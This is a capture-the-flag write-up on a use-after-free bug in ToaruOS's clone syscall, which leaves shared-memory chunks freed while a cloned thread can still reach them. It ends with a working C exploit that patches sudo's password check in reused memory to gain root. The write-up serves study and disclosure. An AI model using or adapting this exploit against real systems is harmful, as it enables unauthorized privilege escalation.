 ```yaml
---
title: "hxp 38C3 CTF: Ser Szwajcarski 🧀"
date: 2025-03-02T10:47:42-05:00
type: posts
tags: ["Binary Exploitation", "CTF"]
---
```


Ser Szwajcarski 🧀 was a challenge in [hxp 38C3 CTF](https://2024.ctf.link/),
The goal was to find and exploit a zero- or n-day vulnerability in
[ToaruOS](https://toaruos.org/). ToaruOS is a hobby operating system and is
intended as an educational resource rather than a fully-fledged OS for everyday
use, so security is not a primary consideration and there are plenty of
vulnerabilities to be found. On top of that, the version in use, 2.2.0, was
already over a year old at the time. For these reasons the challenge was in the
"baby" category with an estimated difficulty of easy. Despite that, it's a
really cool OS and the challenge was a lot of fun, so I'm writing about it
anyway.

During the competition I looked over the commit history and found
[this bug fix](https://github.com/klange/toaruos/commit/60bd809a401cea54d6aa7b8f8050cf88318d4971).
Prior to this commit, a normal user could read and write to arbitrary kernel
memory via the `send` and `recv` syscalls. Turning this into root privileges is
straightforward and is not the focus of this post. Instead, I want to look at a
new bug I found in the shared memory subsystem after the competition was over.

## Shared Memory

In ToaruOS, each thread of execution is represented by a
[`process_t`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/base/usr/include/kernel/process.h#L95-L165)
structure. Note that this differs from the usual meaning of the term; a process
is typically thought of as something that can contain one or more threads, but
in ToaruOS each "thread" in the traditional sense is a process of its own. The
relevant fields are shown below.

```c
typedef struct process {
    ...
    list_t * shm_mappings;
    ...
    thread_t thread;
    ...
} process_t;
```

The `thread` field, of type
[thread_t](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/base/usr/include/kernel/process.h#L52-L56),
contains the information needed to update the state of the CPU to begin or
continue executing this process. This includes the values of the registers and
the root of the page tables that determine the process's virtual memory layout.

```c
typedef struct thread {
    ...
    page_directory_t * page_directory;
} thread_t;
```

Multiple processes can opt to share regions of memory. When this happens, each
process has some part of its virtual address space mapped to an underlying
region of physical memory that is also mapped by the other processes. The
`shm_mappings` field of `process_t` holds a list of such shared memory mappings.

To manage shared memory the kernel maintains a tree resembling a hierarchical
file system. Each node in this tree has a name, and each leaf node points to a
"chunk" of type
[`shm_chunk_t`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/base/usr/include/kernel/shm.h#L12-L18),
a reference counted structure that keeps track of a range of shared physical
memory.

```c
typedef struct {
    struct shm_node * parent;
    volatile uint8_t lock;
    ssize_t ref_count;
    size_t num_frames;
    uintptr_t *frames;
} shm_chunk_t;

typedef struct shm_node {
    char name[256];
    shm_chunk_t * chunk;
} shm_node_t;
```

A process can request a shared memory region by passing a path through this tree
to the
[`shm_obtain`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/shm.c#L236-L274)
syscall in a form similar to a file path (albeit with dots instead of slashes).
After ensuring a chunk exists at this path by allocating a new one if needed,
the chunk is mapped into the calling process and added to its `shm_mappings`
list.

When a process exits,
[`shm_release_all`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/shm.c#L325-L344)
iterates over its `shm_mappings` and calls
[`release_chunk`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/shm.c#L122-L147)
on each chunk, where the chunk's reference count is decremented. If it reaches
zero, the physical memory backing the chunk is freed.

## Evil Clone

The
[`clone`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/process.c#L1339-L1389)
syscall creates a new process via
[`spawn_process`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/process.c#L432-L512)
with the same virtual address space as its parent, including any shared
mappings. However, the shared mappings are not added to the new process's
`shm_mappings` list and the reference counts of the corresponding chunks are not
increased.

```c
pid_t clone(uintptr_t new_stack, uintptr_t thread_func, uintptr_t arg) {
    ...
    process_t * new_proc = spawn_process(this_core->current_process, 1);
    new_proc->thread.page_directory = this_core->current_process->thread.page_directory;
    ...
}
```

```c
process_t * spawn_process(volatile process_t * parent, int flags) {
    ...
    proc->shm_mappings = list_create("process shm mappings",proc);
    ...
}
```

To see why this is a problem, suppose a process that is the only user of some
shared memory chunk calls `clone`.

![](1.svg)

When the process exits, the last known reference to the chunk is gone and so it
is freed, even though the underlying physical memory is still accessible from
the cloned process.

![](2.svg)

Now if something else (a privileged process, for example) makes use of that
freed memory, the cloned process is able to corrupt it.

![](3.svg)

## Exploitation

Exploiting this bug is fairly simple: allocate some shared memory, call `clone`,
and exit the parent process while the child scans through the freed memory
waiting for something sensitive to reuse it. I chose to patch the password check
of `sudo` to always succeed.

```c
#include <pthread.h>
#include <stdint.h>
#include <string.h>
#include <sys/shm.h>

uint8_t *shm;
size_t size = 0x1000000;

void *routine(void *arg) {
  (void)arg;

  for (;;) {
    for (size_t offset = 0; offset < size; offset += 0x1000) {
      uint8_t *page = shm + offset;
      if (memcmp(page + 0x1c9, "\xe8\x22\xfa\xff\xff", 5) == 0) {
        memcpy(page + 0x1c9, "\x90\x90\x90\x90\x90", 5);
      }
    }
  }

  return NULL;
}

int main(void) {
  shm = shm_obtain("asdf", &size);
  memset(shm, 0, size);

  pthread_t thread;
  pthread_create(&thread, NULL, routine, NULL);

  return 0;
}
```

And the result:

![](root.svg)

## Swiss Cheese

Many other issues were found during and after the competition. My teammate and
good friend Krishna had a look at this challenge after the CTF and posted a
great write-up of his solution
[here](https://krsh732.github.io/p/hxp-38c3-ctf-ser-szwajcarski/), and several
other people have reported their findings to the ToaruOS
[issue tracker](https://github.com/klange/toaruos/issues).

Again, security is not a design goal of ToaruOS, and bugs like this are found
quite often even in huge projects with many developers that _are_ focused on
security. This challenge should not be seen as a condemnation of the (single!)
developer, but rather as a fun exercise and a chance to play with a really neat
OS.
